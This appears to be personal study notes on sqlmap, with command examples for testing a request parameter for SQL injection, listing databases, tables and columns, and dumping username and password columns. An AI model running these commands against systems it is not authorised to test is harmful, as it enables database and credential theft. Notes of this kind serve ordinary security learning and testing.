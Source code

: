 This tool try to indicate if the website is vulnerable to [SQLi](https://en.wikipedia.org/wiki/SQL_injection) and if is vulnerable, explote them

-----

# Use / Examples

## Test if is vulnerable
````bash
sqlmap -r request.req -p searchitem --batch
````

## show databases
````bash
sqlmap -r request.req -p searchitem --batch --dbs
````

## show tables
````bash
sqlmap -r request.req -p searchitem --batch -D NAMEBD --tables
````

## To show the columns of an indicate table

````bash
sqlmap -r request.req -p searchitem --batch -D NAMEBD -T users --columns
````

To show the values of the columns

````bash
sqlmap -r request.req -p searchitem --batch -D NAMEBD -T -C username,password --dump
````

-----

# Switches
Indicate the request file (This file is obtain in burpsuite)

> 	-r request.req --> 

parameter to test injections
> 	-p searchitem

To omit the question when the program is running 
> 	--batch

To obtain/show the exists databases
>	--dbs 

Indicate the name of database
> 	-D
 
Show the tables of the databases indicated
> 	--tables

Indicate the name of the table
>	-T

To show the names of columns
> 	--columns

Indicate the columns
>	-C

Show the information in this columns
>	--dump 


----

# Tags

#tools #sqlmap #sqli

----